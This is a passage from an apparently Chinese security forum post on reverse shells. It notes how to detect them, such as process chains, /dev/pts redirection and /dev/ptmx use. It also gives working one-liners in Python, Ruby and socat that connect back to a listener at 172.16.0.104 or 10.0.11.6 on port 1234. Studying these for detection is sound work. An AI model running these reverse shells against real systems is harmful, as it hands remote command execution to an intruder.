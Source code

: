 ![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-c602281984cbd3a27dd2920acf754b00c63f9783.png)

注意：

1. 执行完命令，shell立刻关闭，因此测试的时候，进行了长ping
2. 一执行命令shell就往管道写  
    查看进程链，执行同样的命令，每次启动的shell都不一样，shell执行完后就关闭了  
    这里的图片用的是旧的，所以进程id对应不上

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-cc4902a63d970ab211c3f045f0bf5a3028ee2ba5.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-4df9e9c080d6eb49fe81b47e078a3501eb5f8e5d.png)

单向证明：

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-c8738785514e2f7762db40ac0c01e1f2038e866a.png)

还有以下：

```bash
python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('172.16.0.104',1234))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-f337401b69a7cda51331d3ebf76051b2985c6c4c.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-c395d4d74b8f9e0d34a6171735e8223ae96986fd.png)

```bash
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.0.11.6","1234");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-677d91c05b77684e5b9d684fd0e4e68434820f61.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-9b96f4bdf4a5f8a5a211a65bf8c18371e17bb7ae.png)

### 3. 伪终端 pty

这类的攻击，特征就是shell的基本输入输出错误都重定向到了 `/dev/pts`，且恶意程序会打开`/dev/ptmx`，且会有socket外连

#### socat（双向）

```bash
# 反弹命令

socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.11.6:1234

# 监听命令

socat file:`tty`,raw,echo=0 tcp-listen:1234
```
